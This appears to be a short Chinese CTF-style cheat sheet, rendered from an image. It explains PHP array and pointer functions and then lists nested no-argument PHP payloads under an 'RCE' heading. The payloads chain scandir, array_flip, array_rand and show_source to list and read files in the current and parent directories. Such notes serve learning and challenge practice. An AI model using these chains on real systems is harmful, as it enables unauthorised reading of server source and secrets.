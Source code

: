 ```
current() 
函数返回数组中的当前元素（单元）,默认取第一个值，pos是current的别名

chdir() 
函数改变当前的目录。

strrev()
用于反转给定字符串

array_reverse() 
以相反的元素顺序返回数组

array_flip()
交换数组中的键和值，成功时返回交换后的数组

array_rand() 
从数组中随机取出一个或多个单元
```

### 数组移动操作

```
each() 
返回数组中当前的键/值对并将数组指针向前移动一步

end() 
将数组的内部指针指向最后一个单元

next() 
将数组中的内部指针向前移动一位

prev() 
将数组中的内部指针倒回一位

reset()
将内部指针指向数组中的第一个元素，并输出
```

### 常用RCE

```
highlight_file(array_rand(array_flip(scandir(getcwd())))); //查看和读取当前目录文件

print_r(scandir(dirname(getcwd()))); //查看上一级目录的文件

print_r(scandir(next(scandir(getcwd()))));  //查看上一级目录的文件

show_source(array_rand(array_flip(scandir(dirname(chdir(dirname(getcwd()))))))); //读取上级目录文件

show_source(array_rand(array_flip(scandir(chr(ord(hebrevc(crypt(chdir(next(scandir(getcwd())))))))))));//读取上级目录文件

show_source(array_rand(array_flip(scandir(chr(ord(hebrevc(crypt(chdir(next(scandir(chr(ord(hebrevc(crypt(phpversion())))))))))))))));//读取上级目录文件
```

